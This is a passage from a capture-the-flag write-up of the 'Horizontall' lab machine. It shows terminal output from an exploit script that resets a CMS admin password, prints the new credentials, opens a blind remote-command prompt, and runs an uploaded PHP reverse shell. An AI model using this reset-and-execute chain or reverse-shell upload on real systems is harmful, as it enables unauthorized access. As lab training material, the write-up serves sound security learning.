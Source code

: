 ![Revshell upload](.img/1.png)

If we click our uploaded file, a link gets copied to our clipboard. This link contains localhost as target, but we can try to change it to the actual machine's address. However, if we try to go to this link, the file doesn't get executed but instead it gets downloaded.

We can still run the revshell from inside the RCE bash-like terminal:

```bash
[exyss@exyss Horizontall]$ python scripts/exploit.py 
------------------------------

[»] Resetting admin password...
[+] Success! The password was resetted!
The new credentials are: 
        - Username: admin
        - Email: admin@horizontall.htb
        - Password: imacutecupcake
        - JW Token: eyJhbGciOiJIUzI1NiIsInR5cCI6Ik...
------------------------------

[+] Initializing terminal-like prompt
ATTENTION: wait untill you see the prompt to inject another command


$> ls    
[»] Trying to trigger blind RCE...

api
build
config
extensions
favicon.ico
node_modules
package.json
package-lock.json
public
README.md
  
$> ls public/uploads
[»] Trying to trigger blind RCE...

40203c9ea3e94cce9e8cdb95bccf6db4.php

$> php public/uploads/*
[»] Trying to trigger blind RCE...
```